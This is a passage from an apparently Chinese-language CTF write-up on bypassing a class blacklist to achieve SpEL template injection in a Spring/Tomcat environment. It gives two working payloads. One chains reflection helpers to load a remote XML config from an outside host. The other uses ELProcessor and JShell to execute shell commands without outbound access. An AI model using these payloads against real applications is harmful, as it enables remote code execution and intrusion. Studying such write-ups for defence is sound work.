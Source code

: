 ```
com.zaxxer.hikari.util.UtilityElf#createInstance

org.apache.el.util.ReflectionUtil#getMethod
org.apache.catalina.util.Introspection#getDeclaredMethods
org.apache.el.util.ReflectionUtil#toTypeArray

org.apache.tomcat.util.IntrospectionUtils#callMethod1
org.apache.tomcat.util.IntrospectionUtils#callMethodN
```
上述内容都不在黑名单里面，组合一下有两种思路
#### 思路一：反射构造函数
由于在 spring 的环境下，我们可以利用 `ClassPathXmlApplicationContext` 构造函数来达成 SpEL 表达式执行，payload 会用到两个静态函数

1. `org.apache.el.util.ReflectionUtil#forName`
2. `com.zaxxer.hikari.util.UtilityElf#createInstance`

不细讲了，这个 payload 构造起来比较简单，当时比赛用的就是这个 payload
```
[[${T(org. apache.el.util.ReflectionUtil).forName("com.zaxxer.hikari.util.UtilityElf").createInstance("org."+"springframework.context.support.ClassPathXmlApplicationContext", T(org. apache.el.util.ReflectionUtil).forName("org."+"springframework.context.support.ClassPathXmlApplicationContext"), "http://ip/test.xml")}]]
```
#### 思路二：反射函数调用
由于比赛环境是可以出网的，思路一可以在公网挂载 xml 的方式来载入 exp。
赛后想了下，如果是不出网的情况呢？能不能根据前面找到的静态函数来构造个不出网的命令执行或任意代码执行呢？
这次 payload 组合了下面几个静态函数

1. `ch.qos.logback.core.util.Loader#loadClass`
2. `com.zaxxer.hikari.util.UtilityElf#createInstance`
3. `org.apache.tomcat.util.IntrospectionUtils#callMethodN`

思路是通过 `createInstance` 构建 `jakarta.el.ELProcessor` 对象，然后再通过 `callMethodN` 来调用它的 `eval` 函数。因为比赛环境是 jdk17，所以后续的 EL 利用的是 `jdk.jshell.JShell` 来执行任意代码（在 jdk<=11 的环境下可以用 `javax.script.ScriptEngineManager`）。有兴趣的师傅可以从头构建一下下面的 payload，还是有些坑要踩的。
```
[[${T(org. apache.tomcat.util.IntrospectionUtils).callMethodN(T(com.zaxxer.hikari.util.UtilityElf).createInstance('jakarta.el.ELProcessor', T(ch.qos.logback.core.util.Loader).loadClass('jakarta.el.ELProcessor')), 'eval', new java.lang.String[]{'"".getClass().forName("jdk.jshell.JShell").getMethods()[6].invoke("".getClass().forName("jdk.jshell.JShell")).eval("java.lang.Runtime.getRuntime().exec(\"touch /tmp/success1\")")'}, T(org. apache.el.util.ReflectionUtil).toTypeArray(new java.lang.String[]{"java.lang.String"}))}]]
```
另外，在翻 `jdk.jshell.JShell` 的利用的时候，找到了 [这篇文章](https://codewhitesec.blogspot.com/2023/04/java-exploitation-restrictions-in.html) 对其利用的描述
> Thus, it seems that we don't have access to a lot of "useful" classes with the programmatic approach. But as you already might have guessed, using fully qualified class names can be used as well. We don't have to "fix" the `import` issue mentioned above but can still use all built-in JDK classes by referencing them accordingly: `java.nio.file.Files.createFile(java.nio.file.Paths.get(\"/tmp/RCE\"));`. This gives us again all the power needed to build (almost) arbitrary Java code payloads for exfiltrating data, putting them in a server response etc. pp.

JShell 的默认载入包的范围在
